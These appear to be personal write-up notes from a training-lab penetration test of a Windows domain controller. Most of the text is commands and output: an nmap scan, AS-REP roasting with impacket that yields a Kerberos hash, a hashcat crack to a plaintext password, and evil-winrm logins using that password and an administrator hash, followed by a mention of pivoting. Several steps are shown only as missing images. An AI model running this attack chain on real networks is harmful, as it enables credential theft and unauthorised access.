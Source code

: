 ## NMAP 

```
❯ nmap -sCV -T4 -Pn 172.16.2.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-11 15:23 PST
Nmap scan report for 172.16.2.5
Host is up (0.12s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-12-11 23:24:04Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: DANTE.ADMIN0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: DANTE.ADMIN0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DANTE-DC02; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2023-12-11T23:24:20
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.86 seconds
```

## Enumerating Users

![[Pasted image 20231211140748.png]]
Checking the password list

![[Pasted image 20231211140949.png]]

Enumerate NPusers

```
❯ impacket-GetNPUsers dante/jbercov -dc-ip 172.16.2.5 -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Getting TGT for jbercov
$krb5asrep$23$jbercov@DANTE:456c1a3562e712f541fa80b17b1a7f61$0b53536d108acb64ad25a6332ec4804d8027e22169066cbb9b2cac439b53c2a930887a8c028d0608c0150b005ef84221f5efacd2712eb2ed271041d5a35814bb81bf8e4c6044815ec46974b3d1c5a829717d254f60d4a24cbc96d3a5e4c370677c5844f92ea45cc06e7f3a19a7927d944089653169ddf584d322e49b0bf30d3e098322abf231cefa6c274f21c1a01763228a15d20205e81fea17c95dce6cda3e0ab72e0914ee94fb4d6ebd8aac94a22f467e72f11b07151c651bcc991eb1b18c669e30909da853e230bdb10ea4ea93ba9af5c4e684787f8b9c9f4b27ee11c0d28603616e
```

```
hashcat -m 18200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

Password = myspace7
User jbercov

## Evilwin-rm
```
evil-winrm -i 172.16.2.5 -u jbercov -p myspace7
```

Upload wasn't working so I just downloaded it from an http server

![[Pasted image 20231211142723.png]]

![[Pasted image 20231211155623.png]]

![[Pasted image 20231211155631.png]]

```
 evil-winrm -i 172.16.2.5 -u administrator -H 4c827b7074e99eefd49d05872185f7f8
```

![[Pasted image 20231211160007.png]]

![[Pasted image 20231211155957.png]]

With the bat file I can go back to .19

then move the agent over to DC02 and run a ping sweep

![[Pasted image 20231211170104.png]]